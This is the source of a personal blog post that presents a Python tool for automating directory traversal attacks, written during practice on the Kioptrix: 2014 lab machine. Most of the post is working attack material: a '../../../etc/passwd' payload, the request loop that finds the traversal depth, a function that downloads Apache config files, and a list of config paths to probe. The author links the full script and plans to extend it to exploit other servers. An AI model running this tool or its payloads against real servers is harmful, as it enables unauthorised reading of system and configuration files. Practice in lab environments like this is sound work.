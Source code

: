```yaml
---
layout: post
author: Donald Murchison
category: pr0j3cts
title: "Directory Traversal Script"
---
```


{% highlight bash %}
http://vulnerable-site/index.php?path=../../../etc/passwd
{% endhighlight %}
<br>
This project is a simple python script I wrote to help automate directory traversal attacks. I started this project while I was practicing offensive techniques with the Kioptrix: 2014 (#5) vulnhub machine.

I will be posting a full write up of [Kioptrix: 2014 (#5)](#) in the near future.

The full directory traversal script is [here]({{ site.url }}/assets/traversal/directorytraversal.txt)

Take a look at the full script to understand what options can be specified at the command line. I tried to write the script in a way that I can continue to add new features in the future. Below I will go over how I used this script for the Kioptrix: 2014 vm.

To run the script I will specify the url (-u) and server (-s).
{% highlight bash %}
donald@comp:~$ python directorytraversal.py -u "http://vulnerable-site/index.php?path={}" -s apache
{% endhighlight %}

Two things to note about the -u option, are that the url should be in quotations and the parameter in the url which is vulnerable to directory traversal should be specified by {}.

I chose to specify the url this way so that I could easily use format function to place the series of "../" anywhere in the url.

After setting the options correctly, I needed to automate finding the root directory by trying access the /etc/passwd file. 

I searched for the passwd file because Kioptrix is a linux machine which will always have /etc/passwd.

{% highlight python %}

#Try up to 30
	for i in range(30):
		tmp = ""
		tmp = urllib.quote_plus(("..{}".format(slash))*(i+1))
		tmp += "{}"
		
		traversal = url.format(tmp)
		print traversal.format(localfile)
		r = requests.get(traversal.format(localfile))

		#print r.content
		if r.status_code == 200 and user in r.content:
		#	print "Done"
			with open(outpath+"dt-file.html",'w') as f:
				f.write(r.content)
			findConf(traversal,server,outpath)	
			break

{% endhighlight %} 

Above, is the main snippet of code to accomplish finding the root directory. Essentially, it is just a loop which will make a get request to the url with an increasing amount of "../" prepended to "/etc/passwd".

After making the request, it will check for a 200 status code and for "root", user variable, in the content. I added the check for user in content because Kioptrix was returning a 200 status code in every response. 

You might notice that the treversal variable was written in a weird way and contains a {} in the string. An example instance of traversal is below (minus the url encoding):
{% highlight bash %}
http://vulnerable-site/index.php?path=../../../{}
{% endhighlight %}
I then format the string with etc/passwd while passing it to the GET request. This way I have the correct traversal path for the root directory stored in a variable. 

The next thing I wanted to automate was finding the apache config file. The config file can have many different names or paths and I wanted to easily be able to test for each one.

I wrote a method which makes a get request for each entry in a list of possible config files. The naming convention for the list is ./{server}conflist

{% highlight python %}
def findConf(traversal,server,outpath):
	print "Trying to find config file"
	
	with open("./{}conflist".format(server)) as infile:
			for line in infile:
				r = requests.get(traversal.format(line.strip()))
				#print traversal.format(line.strip())
				if r.status_code == 200 and r.content != "":
					print "Found config {}".format(line)
					break

	#Use .html so I don't have to deal with formatting 
	with open(outpath+"config.html", 'w') as f:
		f.write(traversal.format(line.strip())+"\n\n")
		f.write(urllib.unquote(r.content))
{% endhighlight %}

Since I had the root directory path stored in traversal, I could pass the variable to my function and format the string with the different config files.

Below is my current list of paths to test for apache (linux):
{% highlight python %}
etc/httpd/httpd.conf
etc/httpd/apache2.conf
etc/httpd/conf/httpd.conf
etc/httpd/conf/apache2.conf
etc/conf/httpd.conf
etc/conf/apache2.conf
etc/apache2/httpd.conf
etc/apache2/apache2.conf
etc/apache22/httpd.conf
etc/apache22/apache2.conf
usr/local/etc/httpd/httpd.conf
usr/local/etc/httpd/apache2.conf
usr/local/etc/httpd/conf/httpd.conf
usr/local/etc/httpd/conf/apache2.conf
usr/local/etc/conf/httpd.conf
usr/local/etc/conf/apache2.conf
usr/local/etc/apache2/httpd.conf
usr/local/etc/apache2/apache2.conf
usr/local/etc/apache22/httpd.conf
usr/local/etc/apach22/httpd.conf
opt/etc/httpd/httpd.conf
opt/etc/httpd/apache2.conf
opt/etc/httpd/conf/httpd.conf
opt/etc/httpd/conf/apache2.conf
opt/etc/conf/httpd.conf
opt/etc/conf/apache2.conf
opt/etc/apache2/httpd.conf
opt/etc/apache2/apache2.conf
opt/etc/apache22/httpd.conf
opt/etc/apache22/apache2.conf
{% endhighlight %} 

Please contact me if you have suggestions for the apache config list or lists for other servers.

As I continue to learn, I will update this tool to be able to automate exploitation of different linux and windows servers.

This article will continue to be updated.

